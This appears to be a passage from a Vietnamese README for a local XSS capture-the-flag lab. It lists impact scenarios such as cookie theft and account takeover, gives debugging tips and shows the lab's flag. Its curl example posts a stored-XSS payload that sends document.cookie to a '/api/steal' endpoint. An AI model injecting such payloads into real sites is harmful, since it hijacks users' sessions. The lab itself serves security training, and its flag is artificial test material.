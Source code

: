 ### 2. Account Takeover

```
1. XSS trong profile/comment
2. Mọi user xem → Cookie bị đánh cắp
3. Attacker có database session tokens
4. Mass account takeover
```

### 3. Data Theft

```
1. XSS trong admin panel
2. Admin xem → Sensitive data bị đánh cắp
3. Database credentials, API keys
```

### 4. Malware Distribution

```
1. XSS trong trang public
2. Redirect user đến malicious site
3. Download malware
4. Keylogger, ransomware
```

## 🔧 Debugging Tips

### Xem Chrome Automation

-   Browser sẽ mở và thực hiện automation
-   Screenshot được lưu với tên `xss-attack-{timestamp}.png`
-   Console logs chi tiết từng bước

### Test với curl

```bash
# Post XSS comment
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'
```

### Browser DevTools

-   Network tab để xem requests
-   Console để debug JavaScript
-   Application tab để xem cookies

## 🚩 FLAG

```
FLAG{4uth_Byp4ss_C00k13_H4ck}
```
